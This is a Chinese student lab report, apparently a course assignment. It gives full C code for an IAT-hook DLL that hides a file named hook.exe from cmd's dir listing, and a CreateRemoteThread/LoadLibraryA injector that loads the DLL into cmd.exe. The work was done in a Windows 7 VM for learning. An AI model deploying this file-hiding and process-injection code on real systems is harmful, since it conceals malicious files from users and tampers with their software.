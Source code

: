 # 期末作业

## 实验目标

---

更改dir时调用的`FindFirstFile`，每次出现"hook.exe"便抹掉此结果，使得cmd的dir命令看不到目录下的hook.exe

## 实验过程

---

* 分析：通过查询资料，windows系统在dir时调用的函数为`FindFirstFileExW`和`FindNextFileW`，查询这两个函数详细资料如下，dir显示目录下文件时调用了一次`FindFirstFileExW`和多次`FindNextFileW`，所以使用这两个函数进行hook
* 通过dll注入操作对这两个函数进行监控，检测到调用时，执行后续操作阻碍dir的正常运行。

```c++
HANDLE WINAPI FindFirstFile(
	LPCSTR             lpFileName,//  查找的文件类型。例如:.txt,.ini,.cpp等后缀
	LPWIN32_FIND_DATA  lpFindFileData,//得到当前所杳找文件的一些属性，包括文件名，文件大小创建时间等
);//根据文件名查找文件，函数执行成功返回一个搜索句柄

BOOL FindNextFile(
  HANDLE hFindFile,                            //FindFirstFile返回的HANDLE
  LPWIN32_FIND_DATA lpFindFileData            //所杳找文件的一些属性
);//成功返回非零，失败返回零

typedef struct _WIN32_FIND_DATA 
{
   DWORD dwFileAttributes; //文件属性
   FILETIME ftCreationTime; // 文件创建时间
   FILETIME ftLastAccessTime; // 文件最后一次访问时间
   FILETIME ftLastWriteTime; // 文件最后一次修改时间
   DWORD nFileSizeHigh; // 文件长度高32位
   DWORD nFileSizeLow; // 文件长度低32位
   DWORD dwReserved0; // 系统保留
   DWORD dwReserved1; // 系统保留
   TCHAR cFileName[ MAX_PATH ]; // 长文件名（最多可达 255 个字符的长文件名），带句点和扩展名
   TCHAR cAlternateFileName[ 14 ]; //8.3格式文件名（句点前最多有8个字符，而扩展名最多可以有3个字符）
} WIN32_FIND_DATA, *PWIN32_FIND_DATA;
```

* 编写dllmain.cpp，其中hook的函数需更改为`FindFirstFileExW`和`FindNextFileW`

```c
#include <windows.h>

#define FILENAME "hook.exe"
LONG IATHook(
	__in_opt void* pImageBase,
	__in_opt const char* pszImportDllName,
	__in const char* pszRoutineName,
	__in void* pFakeRoutine,
	__out HANDLE* phHook
);
LONG UnIATHook(__in HANDLE hHook);
void* GetIATHookOrign(__in HANDLE hHook);
typedef HANDLE(__stdcall *LPFN_FindFirstFileExW)(
	LPCSTR             lpFileName,
	FINDEX_INFO_LEVELS fInfoLevelId,
	LPVOID             lpFindFileData,
	FINDEX_SEARCH_OPS  fSearchOp,
	LPVOID             lpSearchFilter,
	DWORD              dwAdditionalFlags
	);
typedef BOOL(__stdcall *LPFN_FindNextFileW)(
	HANDLE             hFindFile,
	LPWIN32_FIND_DATAW lpFindFileData
	);
HANDLE g_hHook_FindFirstFileExW = NULL;
HANDLE g_hHook_FindNextFileW = NULL;
HANDLE __stdcall Fake_FindFirstFileExW(
	LPCSTR             lpFileName,
	FINDEX_INFO_LEVELS fInfoLevelId,
	LPVOID             lpFindFileData,
	FINDEX_SEARCH_OPS  fSearchOp,
	LPVOID             lpSearchFilter,
	DWORD              dwAdditionalFlags
){
	LPFN_FindFirstFileExW fnOrigin = (LPFN_FindFirstFileExW)GetIATHookOrign(g_hHook_FindFirstFileExW);
	HANDLE hFindFile = fnOrigin(lpFileName, fInfoLevelId, lpFindFileData, fSearchOp, lpSearchFilter, dwAdditionalFlags);
	while (0 == wcscmp(((WIN32_FIND_DATA*)lpFindFileData)->cFileName, TEXT(FILENAME))) {
		FindNextFileW(hFindFile, (LPWIN32_FIND_DATA)lpFindFileData);
	}
	return hFindFile;
}

BOOL __stdcall Fake_FindNextFileW(
	HANDLE             hFindFile,
	LPWIN32_FIND_DATAW lpFindFileData
) {
	LPFN_FindNextFileW fnOrigin = (LPFN_FindNextFileW)GetIATHookOrign(g_hHook_FindNextFileW);
	BOOL rv = fnOrigin(hFindFile, lpFindFileData);
	if (0 == wcscmp(((WIN32_FIND_DATA*)lpFindFileData)->cFileName, TEXT(FILENAME))) {
		rv = fnOrigin(hFindFile, lpFindFileData);
	}
	return rv;
}

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpvRevered) {
	switch (dwReason) {
	case DLL_PROCESS_ATTACH:
		IATHook(
			GetModuleHandle(NULL),
			"kernel32.dll",
			"FindFirstFileExW",
			Fake_FindFirstFileExW,
			&g_hHook_FindFirstFileExW
		);
		IATHook(
			GetModuleHandle(NULL),
			"kernel32.dll",
			"FindNextFileW",
			Fake_FindNextFileW,
			&g_hHook_FindNextFileW
		);
		break;
	case DLL_PROCESS_DETACH:
		UnIATHook(g_hHook_FindFirstFileExW);
		UnIATHook(g_hHook_FindNextFileW);
		break;
	}
	return TRUE;
}
```

* 将.cpp文件编译生成为dll文件HookFindFileW.dll,将其放入c盘下（相同目录即可，为了方便检索选择C盘）
* 原理同上次实验。

* 编写Inject.cpp，将注入的进程修改为cmd.exe

```c
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

int main() {
	char szDllName[] = "C:\\HookFindFileW.dll";
	char szExeName[] = "cmd.exe";

	/* Step 1 */
	PROCESSENTRY32 ProcessEntry = {};
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	bool bRet = Process32First(hProcessSnap, &ProcessEntry);
	DWORD dwProcessId = 0;
	while (bRet) {
		if (strcmp(szExeName, ProcessEntry.szExeFile) == 0) {
			dwProcessId = ProcessEntry.th32ProcessID;
			break;
		}
		bRet = Process32Next(hProcessSnap, &ProcessEntry);
	}
	if (0 == dwProcessId) {
		return 1;
	}

	/* Step 2 */
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
	if (0 == hProcess) {
		return 1;
	}

	/* Step 3 */
	size_t length = strlen(szDllName) + 1;
	char * pszDllFile = (char *)VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT, PAGE_READWRITE);
	if (0 == pszDllFile) {
		return 1;
	}

	/* Step 4 */
	if (!WriteProcessMemory(hProcess, (PVOID)pszDllFile, (PVOID)szDllName, length, NULL)) {
		return 1;
	}

	/* Step 5 */
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA");
	if (0 == pfnThreadRtn) {
		return 1;
	}

	/* Step 6 */
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, (PVOID)pszDllFile, 0, NULL);
	if (0 == hThread) {
		return 1;
	}

	/* Step 7 */
	WaitForSingleObject(hThread, INFINITE);
    printf("远程线程执行完毕!\n");
	VirtualFreeEx(hProcess, (PVOID)pszDllFile, 0, MEM_RELEASE);
	CloseHandle(hThread);
	CloseHandle(hProcess);

	return 0;
}
```

* 实验结果截图如下

在虚拟机中运行编译链接后的inject.exe

<img src="image/img1.png" />

<img src="image/img2.png" />

## 实验总结

实验中通过文档学习了解了Hook API的工作方式和实现原理，实际编写了相关程序，实现了对程序功能的修改。
本次实验通过Hook函数实现了对程序中接口调用的检测，进而修改其执行内容，已达到对软件行为进行篡改的目的。


## 实验环境

---

* 虚拟机windows7环境
* 32位cmd

## 参考资料

1.[**利用FindFirstFile和FindNextFile查找文件或遍历文件夹**](https://blog.csdn.net/milanleon/article/details/18222197)

2.[**Windows API| Microsoft Docs**](https://docs.microsoft.com/en-us/previous-versions/aa914391(v%3dmsdn.10))

3.[**injectAllTheThings**](https://github.com/fdiskyou/injectAllTheThings)

4.**[iathook](https://github.com/tinysec/iathook)**